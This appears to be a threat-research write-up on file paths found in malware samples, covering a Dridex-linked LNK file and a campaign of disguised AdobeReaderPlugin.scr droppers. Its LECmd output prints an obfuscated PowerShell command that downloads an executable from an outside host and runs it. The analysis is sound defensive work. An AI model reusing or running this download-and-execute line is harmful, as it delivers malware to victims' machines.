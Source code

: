 ```
Z:\js loader\REMOVED_UNICODE_\invoice 26.01.2017\invoice 26.01.2017.js C:\Users\my\AppData\Local\Temp\invoice 26.01.2017.js invoice 26.01.2017.js
Z:\Users\calvinfong\Desktop\Spam & Virus\eicar.com Z:\Users\CALVIN~1\AppData\Local\Temp\eicar.com eicar.com
```
For the `file_path` field 595 used the C drive and 275 used a mounted or network drive. Virtual Machines is one possible reason why mounted drives are so common. Tools used in Dridex campaign (explained in next section) contain evidence that they were created in VirtualBox. For example, Invoice 9840018.lnk is a Shell Link LNK file. This file format contains the Mac Address of the host that created the file. For Invoice 9840018.lnk, it has a MAC Address of 08:00:27:40:ee:a9 which has a Mac Vendor of CADMUS COMPUTER SYSTEMS. Which is the Mac Vendor name for Mac Addresses created by Virtual Box. The following output is from Eric Zimmerman's [LECmd](https://github.com/EricZimmerman/LECmd) LNK explorer. 

```
...
Name: nKJbajskd qwge8712y981y328912gh3iu12bhwq jqwhjd hqwdhjqjhhhhhhweqweqwe
Working Directory: %currentdir%
Arguments: /r powershell -command (New-Object Net.WebClient).("'Downl' + 'oadfile'").invoke('http://challengegx.top/vagina/pussy/sso5sok.php','%TMP%\notepad.exe');(New-Object -com Shell.Application).ShellExecute('%TMP%\notepad.exe');
Icon Location: %SystemRoot%\system32\SHELL32.dll
....
>> Tracker database block
   Machine ID: azaz-za
   MAC Address: 08:00:27:40:ee:a9
   MAC Vendor: CADMUS COMPUTER SYSTEMS
   Creation: 2015-08-04 04:19:45

   Volume Droid: 6595771e-78a2-4b30-8884-d59f468d8d87
   Volume Droid Birth: 6595771e-78a2-4b30-8884-d59f468d8d87
   File Droid: 097b1289-3a60-11e5-beb2-08002740eea9
   File Droid birth: 097b1289-3a60-11e5-beb2-08002740eea9
```


#### Campaigns
As demonstrated in the file types and file names section above the Adobe `.scr` files were the most common. They use mounted drives, a folder depth of three and the child folder using an integer as the name. The folder names are likely affiliates ids. All of the `.scr` files have unique hashes. 
```
F:\_Kit\foliant\11\AdobeReaderPlugin.scr 
F:\_Kit\foliant\134\AdobeReaderPlugin.scr 
F:\_Kit\foliant\476\AdobeReaderPlugin.scr 
F:\_Kit\foliant\54\AdobeReaderPlugin.scr 
H:\_doc\udp\13\AdobeReader.scr 
H:\_doc\udp\6\AdobeReader.scr 
H:\_doc\udp\8\AdobeReader.scr
W:\_kitchen\foliant\9\AdobeReaderPlugin.scr 
W:\_kitchen\upd\2\AdobeReaderPlugin.scr 
W:\_kitchen\upd\43\AdobeReaderPlugin.scr 
W:\_kitchen\upd\87\AdobeReaderPlugin.scr 
W:\_kitchen\upd\88\AdobeReaderPlugin.scr 
X:\rayban\uniqo\22\AdobeReaderPlugin.scr 
X:\rayban\uniqo\32\AdobeReaderPlugin.scr 
X:\rayban\uniqo\78\AdobeReaderPlugin.scr 
X:\rayban\uniqo\88\AdobeReaderPlugin.scr 
X:\rayban\uniqo\89\AdobeReaderPlugin.scr 
``` 
All of `command` fields contain the same path  of `c:\Temp\AdobeReaderPlugin.scr` except for `F:\_Kit\foliant\54\AdobeReaderPlugin.scr`  It's `command` path is  `C:\Users\VASILE~1\AppData\Local\Temp\AdobeReaderPlugin`. 
